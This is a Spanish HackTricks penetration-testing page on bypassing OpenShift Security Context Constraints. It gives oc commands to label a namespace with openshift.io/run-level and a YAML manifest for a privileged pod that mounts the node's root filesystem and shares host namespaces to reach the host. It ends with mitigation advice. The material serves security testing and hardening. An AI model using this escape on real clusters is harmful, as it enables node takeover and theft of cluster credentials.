

# Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**El autor original de esta página es** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces privilegiados

Los siguientes proyectos predeterminados tienen muchos privilegios, y las funcionalidades que dependen de plugins de admisión, incluida la admisión de SCC, no funcionan en ellos:<sup>[[1]](#references)</sup>

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

No ejecutes cargas de trabajo en estos namespaces ni concedas acceso a ellos a usuarios que no sean de confianza. Un usuario que pueda crear pods en ellos puede solicitar configuraciones sensibles para la seguridad, como contenedores privilegiados y montajes del sistema de archivos del host, sin que la admisión de SCC las rechace.<sup>[[1]](#references)</sup>

## Etiqueta de namespace

La etiqueta de namespace `openshift.io/run-level` está reservada para componentes internos de OpenShift. Red Hat advierte que establecerla hace que no se apliquen las SCC a los pods de ese namespace, lo que deja sus cargas de trabajo con muchos privilegios.<sup>[[1]](#references)</sup> Para explotar este comportamiento se necesita, como mínimo, una de las siguientes combinaciones de permisos:

- Permiso para crear namespaces y pods en el namespace recién creado.
- Permiso para aplicar parches o actualizar un namespace existente y para crear pods en ese namespace.

```bash
$ oc auth can-i create namespaces
  yes

$ NAMESPACE=example-workloads
$ oc auth can-i patch namespace/"$NAMESPACE"
  yes

$ oc auth can-i create pods -n "$NAMESPACE"
  yes
```

<figure><figcaption></figcaption></figure>

## Añadir etiqueta

Para añadir la etiqueta a un namespace de prueba:

```bash
$ oc label namespace example-workloads openshift.io/run-level=0
```

Para crear un namespace con la etiqueta mediante un archivo YAML:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: example-workloads
  labels:
    openshift.io/run-level: "0"
```

Los nuevos pods creados en el espacio de nombres no deberían tener una anotación de SCC:

```bash
$ oc get pod scc-test-pod -o jsonpath='{.metadata.annotations.openshift\.io/scc}{"\n"}'

```

Sin la admisión de SCC, el pod no está sujeto a controles de SCC como las restricciones de privileged-container, privilege-escalation, host-namespace y host-volume.<sup>[[1]](#references)</sup> Por lo tanto, un pod malicioso puede solicitar la configuración necesaria para acceder al host.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: scc-test-pod
spec:
  hostNetwork: true # Bind the pod to the host network.
  hostPID: true # See host processes.
  hostIPC: true # Access the host IPC namespace.
  containers:
    - name: security-test
      image: registry.example/pentest/tooling:1.0
      imagePullPolicy: IfNotPresent
      securityContext:
        privileged: true
        allowPrivilegeEscalation: true
      resources:
        limits:
          memory: 200Mi
        requests:
          cpu: 30m
          memory: 100Mi
      volumeMounts:
        - name: hostrootfs
          mountPath: /mnt/host
  volumes:
    - name: hostrootfs
      hostPath:
        path: /
```

El acceso al host puede exponer credenciales de nodos y otros datos sensibles del clúster que podrían permitir comprometer una parte mayor del clúster. Consulta la sección **Node-Post Exploitation** en la siguiente página:

{{#ref}}
../../kubernetes-security/kubernetes-post-exploitation/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Labels personalizados

Según la configuración del objetivo, las automatizaciones personalizadas o las políticas de admisión también podrían usar labels o anotaciones para conceder permisos o modificar las restricciones de recursos.

Busca labels personalizados si puedes leer recursos. Entre los recursos interesantes se incluyen:

- Pod
- Deployment
- Namespace
- Service
- Route

```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```

## Listar namespaces con la etiqueta run-level

```bash
$ oc get namespaces -l 'openshift.io/run-level' --show-labels
```

Los proyectos predeterminados fijos enumerados anteriormente también tienen privilegios elevados, aunque una consulta de etiquetas no los devuelva.

## Mitigación

Impide que sujetos no confiables creen o modifiquen namespaces con la etiqueta reservada y que implementen cargas de trabajo en proyectos con privilegios elevados.<sup>[[1]](#references)</sup>

Las herramientas de políticas de admisión, como **Open Policy Agent Gatekeeper**, pueden aplicar restricciones a los objetos `Namespace` y denegar solicitudes de admisión que las infrinjan, por lo que se pueden configurar para rechazar esta etiqueta.<sup>[[2]](#references)</sup>

## References

- [1] [Administración de las restricciones de contexto de seguridad - OpenShift Container Platform 4.22](https://docs.redhat.com/en/documentation/openshift_container_platform/4.22/html/authentication_and_authorization/managing-pod-security-policies)
- [2] [Cómo usar Gatekeeper](https://open-policy-agent.github.io/gatekeeper/website/docs/howto/)
{{#include ../../../banners/hacktricks-training.md}}
